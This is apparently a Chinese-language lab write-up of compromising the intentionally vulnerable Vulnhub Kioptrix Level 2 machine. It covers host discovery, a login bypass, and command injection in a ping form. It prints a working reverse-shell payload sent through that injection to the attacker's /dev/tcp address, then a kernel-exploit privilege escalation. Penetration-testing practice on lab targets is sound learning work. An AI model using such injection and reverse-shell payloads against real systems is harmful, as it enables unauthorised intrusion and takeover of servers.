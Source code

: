 ```yaml
---
title: Vulnhub-Kioptrix_Level2
date: 2025-2-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](./././././././././Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](./././././././././Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](./././././././././Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](./././././././././Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](./././././././././Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](./././././././././Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](./././././././././Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](./././././././././Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](./././././././././Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](./././././././././Kioptrix%20Level2/image-20250319175440036.png)

成功提权